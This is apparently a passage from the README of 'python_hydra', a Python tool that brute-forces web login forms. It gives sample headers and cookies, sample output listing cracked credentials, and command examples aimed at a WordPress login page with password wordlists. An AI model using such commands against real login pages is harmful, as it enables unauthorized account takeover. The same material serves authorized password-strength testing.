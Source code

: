 ```json
"headers": {
  "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36",
  "Accept": "application/json, text/plain, */*",
  "X-Requested-With": "XMLHttpRequest"
},
"cookies": {
  "PHPSESSID": "abc123def456",
  "csrf_token": "xyz789"
}
```

## 📊 Output

The tool provides:

1. **Real-time progress** during execution
2. **Detailed logging** to `python_hydra.log`
3. **JSON results** with timestamps and statistics
4. **Console summary** of successful credentials

### Sample Output

```
[+] SUCCESS: admin:password123 - Success indicator found: Welcome
[+] SUCCESS: user:secret456 - Success indicator found: Dashboard

Brute force attack completed!
Successful attempts: 2
Failed attempts: 998
Total attempts: 1000
```

## 🎯 Examples

### Example 1: Basic WordPress Login

```bash
python python_hydra.py \
  -t https://example.com/wp-login.php \
  -u admin \
  -p common_passwords.txt \
  --delay 1.0 \
  --threads 3
```

### Example 2: Custom Form with Configuration

```bash
# Create config.json manually with your target details
# Then run:
python python_hydra.py -c config.json -U users.txt -P passwords.txt
```
